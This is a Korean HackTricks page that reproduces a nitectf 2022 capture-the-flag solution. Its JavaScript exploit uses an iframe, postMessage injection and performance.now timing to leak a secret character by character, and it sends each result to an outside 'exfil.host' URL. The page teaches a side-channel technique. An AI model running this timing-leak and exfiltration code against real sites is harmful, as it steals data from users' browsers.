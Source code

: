 # performance.now 예제

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 제로에서 영웅까지 AWS 해킹을 배워보세요<strong>!</strong></summary>

* **사이버 보안 회사**에서 일하시나요? **회사를 HackTricks에서 광고하고 싶으신가요**? 아니면 **PEASS의 최신 버전에 액세스하거나 HackTricks를 PDF로 다운로드**하고 싶으신가요? [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인해보세요!
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견해보세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**💬**](https://emojipedia.org/speech-balloon/) [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter**에서 저를 **팔로우**하세요 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **해킹 팁을 공유하려면 PR을** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **및** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud) **에 제출하세요.**

</details>

**예제는 [https://ctf.zeyu2001.com/2022/nitectf-2022/js-api](https://ctf.zeyu2001.com/2022/nitectf-2022/js-api)에서 가져왔습니다.**
```javascript
const sleep = (ms) => new Promise((res) => setTimeout(res, ms));

async function check(flag) {
let w = frame.contentWindow;
w.postMessage({'op': 'preview', 'payload': '<img name="enable_experimental_features">'}, '*');
await sleep(1);
w.postMessage({'op': 'search', 'payload': flag}, '*');
let t1 = performance.now();
await sleep(1);
return (performance.now() - t1) > 200;
}

async function main() {
let alpha = 'abcdefghijklmnopqrstuvwxyz0123456789_ABCDEFGHIJKLMNOPQRSTUVWXYZ-}';
window.frame = document.createElement('iframe');
frame.width = '100%';
frame.height = '700px';
frame.src = 'https://challenge.jsapi.tech/';
document.body.appendChild(frame);
await sleep(1000);

let flag = 'nite{';
while(1) {
for(let c of alpha) {
let result = await Promise.race([
check(flag + c),
new Promise((res) => setTimeout(() => { res(true); }, 300))
]);
console.log(flag + c, result);
if(result) {
flag += c;
break;
}
}
new Image().src = '//exfil.host/log?' + encodeURIComponent(flag);
}
}

document.addEventListener('DOMContentLoaded', main);
```
<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

* **사이버 보안 회사**에서 일하시나요? **회사를 HackTricks에서 광고하고 싶으신가요**? 아니면 **PEASS의 최신 버전에 액세스하거나 HackTricks를 PDF로 다운로드**하고 싶으신가요? [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인해보세요!
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견해보세요. 독점적인 [**NFT**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**💬**](https://emojipedia.org/speech-balloon/) [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter**에서 저를 **팔로우**하세요 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **해킹 트릭을 공유하려면 PR을** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **및** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud) **에 제출하세요.**

</details>
